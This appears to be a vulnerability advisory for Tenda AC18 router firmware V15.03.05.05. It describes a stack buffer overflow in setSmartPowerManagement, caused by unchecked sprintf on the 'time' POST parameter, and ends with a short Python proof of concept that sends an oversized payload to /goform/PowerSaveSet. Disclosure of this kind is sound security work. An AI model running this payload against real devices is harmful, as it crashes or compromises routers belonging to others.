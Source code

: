 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `setSmartPowerManagement` function. The `v13` variable receives the `time` parameter from a POST request and `v13` is directly parsed into the `v10`, `v9`, `v8` and `v7`. However, since the user can control the input of `time`, the statement `sprintf(s, "%s:%s", (const char *)v10, (const char *)v9); sprintf(v5, "%s:%s", (const char *)v8, (const char *)v7);` can cause a buffer overflow by  `v10`, `v9`, `v8` and `v7`. 

![image-20240305230652504](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305230652504.png)

![image-20240305230641177](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305230641177.png)

![image-20240305230630107](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305230630107.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PowerSaveSet"
payload = 'a'*1000 + ':aaaa-bbb:1'


data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305230734921](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305230734921.png)
